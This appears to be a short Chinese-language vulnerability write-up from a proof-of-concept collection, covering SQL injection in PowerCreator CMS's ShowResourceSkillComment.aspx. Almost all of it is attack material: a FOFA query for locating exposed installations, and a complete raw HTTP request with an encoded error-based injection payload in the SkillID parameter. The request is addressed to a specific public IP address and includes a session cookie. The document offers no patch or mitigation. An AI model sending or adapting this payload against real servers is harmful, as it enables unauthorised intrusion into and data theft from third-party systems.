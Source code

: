 ## PowerCreator接口ShowResourceSkillComment.aspx存在sql注入漏洞

PowerCreator接口 ShowResourceSkillComment.aspx存在任意文件sql注入漏洞。攻击者可利用该漏洞获取服务器上的信息。

## fofa

```yaml
app="PowerCreator-CMS"
```

![image](https://github.com/user-attachments/assets/fcc5c0c8-6a56-42a0-9aba-0d65b1d63a56)

## poc

```yaml
GET /ShowResourceSkillComment.aspx?rid=3&SkillID=1%20AND%204312%20IN%20%28SELECT%20%28CHAR%28113%29%2BCHAR%28122%29%2BCHAR%28106%29%2BCHAR%28106%29%2BCHAR%28113%29%2B%28SELECT%20%28CASE%20WHEN%20%284312%3D4312%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%29%2BCHAR%28113%29%2BCHAR%28122%29%2BCHAR%28120%29%2BCHAR%28118%29%2BCHAR%28113%29%29%29 HTTP/1.1
Host: 221.199.170.130:88
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://221.199.170.130:88/StandardPlatform/Default.aspx
Cookie: ASP.NET_SessionId=l2wuj2tri5e554020jeezoyw; language=simpleChineses
Pragma: no-cache
Cache-Control: no-cache


```
